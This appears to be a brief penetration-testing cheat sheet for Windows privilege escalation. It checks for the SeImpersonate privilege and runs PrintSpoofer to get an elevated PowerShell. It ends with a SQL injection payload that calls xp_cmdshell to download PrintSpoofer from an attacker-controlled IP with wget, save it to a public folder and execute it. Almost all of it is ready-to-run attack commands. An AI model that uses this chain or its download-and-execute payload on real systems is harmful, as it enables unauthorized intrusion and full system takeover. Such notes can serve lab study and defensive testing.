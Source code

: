 
```
whoami /priv 
```

If seimpersonate priv is via above, upload PrintSpoofer.exe (also a 64 bit version)
```
.\PrintSpoofer64.exe -i -c powershell.exe
```


'EXEC xp_cmdshell "powershell.exe wget http://192.168.45.225:8000/PrintSpoofer64.exe -OutFile c:\Users\Public\PrintSpoofer.exe" EXEC xp_cmdshell "c:\Users\Public\PrintSpoofer.exe -i -c powershell.exe"--

